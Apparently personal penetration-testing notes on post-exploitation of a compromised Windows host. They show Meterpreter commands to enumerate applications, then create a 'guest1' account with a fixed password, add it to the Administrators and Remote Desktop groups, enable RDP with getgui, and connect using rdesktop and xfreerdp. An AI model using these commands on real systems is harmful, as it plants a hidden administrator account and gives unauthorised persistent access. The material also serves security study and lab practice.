


RDP (Remote Desktop Protocol) -p 3389
After that we have enumerated applications on the remote machine with for example:
run post/windows/gather/enum_applications
If we need a GUI to interact with Apllications on the machine we can try to start a RDP session
Enable RDP on a machineAdd user to Remote Desktop Group
C:\> net user guest1 guestpwd /add
C:\> net localgroup Administrators guest1 /add
C:\> net localgroup "Remote Desktop Users" guest1 /add
C:\> net localgroup "Remote Management Users" guest1 /add
enable Remote Desktop on the machine
meterpreter> run getgui -e
Only after enabled the Remote Desktop we should see:
◇ with netstat:
 ◇ with nmap
connect to the machine through RDP
• rdesktop
rdesktop 10.32.120.15 -u guest1
• xfreerdp
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.6.188 /workarea